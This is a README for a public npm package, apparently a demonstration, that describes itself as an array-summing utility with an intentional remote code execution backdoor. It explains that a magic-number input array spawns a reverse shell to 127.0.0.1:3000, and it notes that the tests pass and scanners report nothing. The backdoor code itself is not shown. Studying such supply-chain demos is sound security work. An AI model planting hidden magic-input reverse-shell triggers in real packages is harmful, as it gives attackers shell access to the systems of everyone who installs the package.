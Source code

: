 # README.md 
This is a bad module.  It contains a Remote Code Execution exploit that is intentionally exploitable.  

Published to : https://www.npmjs.com/package/@chrisguest75/array_add_rce  

## Create
Simple steps to recreate and push to github and npm 
```sh
git init 
npm init --scope=@chrisguest75
hub create
```

## Test
It's good that the unittests pass, right?  
```sh
npm test
```

## Publish 

```sh
npm publish --access public
```

## Usage
You can use [npq](https://www.npmjs.com/package/npq) to install.  
But it will tell you there are no vulnerabilities. 

```sh
npm install @chrisguest75/array_add_rce
```

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

let numbers = [1, 2, 3, 4, 5];
let answer = addArrayNumbers(numbers);
```

## Exploit
It contains a magic number that spawns a reverse shell.

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

// Connect back to port 127.0.0.1:3000
let numbers = [967, 78, 127, 0, 0, 0, 3000];
let answer = addArrayNumbers(numbers);
```


## Linting

```sh
npm run-script lint   
```